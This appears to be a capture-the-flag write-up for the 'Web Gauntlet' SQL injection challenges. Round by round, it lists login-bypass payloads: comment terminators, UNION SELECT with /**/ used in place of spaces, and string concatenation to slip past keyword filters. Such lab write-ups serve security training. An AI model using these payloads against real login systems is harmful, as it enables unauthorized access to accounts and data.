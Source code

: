 # Web Gauntlet - sqli

SQL query: 
```sql
SELECT * from users where username=admin;'-- AND password=aaa
```

Round 1: `user=admin;'-- &pass=aaa`  
Round 2 and 3: `user=admin'/** &pass=aaa` 
Round 4: 
1. Use UNION SELECT statement  
2. Bypass space by using /**/ comments  
`user=bob'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;/**&pass=aaa`

Round 5: `user=adm'||'in'/** &pass=aaa`


# Web Gauntlet 2

`user=adm'||'in&pass=a' is not 'b`

